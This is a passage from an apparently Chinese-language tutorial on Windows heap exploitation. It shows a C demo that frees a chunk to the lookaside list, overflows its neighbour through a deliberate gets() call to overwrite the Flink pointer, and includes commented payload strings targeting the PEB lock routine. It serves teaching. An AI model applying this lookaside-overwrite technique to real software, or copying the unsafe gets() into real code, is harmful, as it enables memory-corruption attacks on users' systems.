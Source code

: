 当这些步骤全部完成，我们现在控制了一个覆写的函数指针，其将会理想地在我们的"4字节写"之后被调用。下面是我们将会说明的C代码：

```
/*
        Overwriting a chunk on the lookaside example
*/
#include <stdio.h>
#include <windows.h>
int main(int argc,char *argv[])
{
        char *a,*b,*c;
        long *hHeap;
        char buf[10];

        printf("----------------------------\n");
        printf("Overwrite a chunk on the lookaside\n");
        printf("Heap demonstration\n");
        printf("----------------------------\n");

        // create the heap
        hHeap = HeapCreate(0x00040000,0,0);
        printf("\n(+) Creating a heap at: 0x00%xh\n",hHeap);
        printf("(+) Allocating chunk A\n");

        // allocate the first chunk of size N (<0x3F8 bytes)
        a = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);
        printf("(+) Allocating chunk B\n");

        // allocate the second chunk of size N (<0x3F8 bytes)
        b = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);

        printf("(+) Chunk A=0x00%x\n(+) Chunk B=0x00%x\n",a,b);
        printf("(+) Freeing chunk B to the lookaside\n");

        // Freeing of chunk B: the chunk gets referenced to the lookaside list
        HeapFree(hHeap,0,b);

        // set software bp
        __asm__("int $0x3");

        printf("(+) Now overflow chunk A:\n");

        // The overflow occurs in chunk A: we can manipulate chunk B's Flink
        // PEB lock routine for testing purposes
        // 16 bytes for size, 8 bytes for header and 4 bytes for the flink

        // strcpy(a,"XXXXXXXXXXXXXXXXAAAABBBB\x20\xf0\xfd\x7f");
        // strcpy(a,"XXXXXXXXXXXXXXXXAAAABBBBDDDD");

        gets(a);

        // set software bp
        __asm__("int $0x3");

        printf("(+) Allocating chunk B\n");

        // A chunk of block size N is allocated (C). Our fake pointer is returned
        // from the lookaside list.
        b = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);
        printf("(+) Allocating chunk C\n");

        // set software bp
            __asm__("int $0x3");

```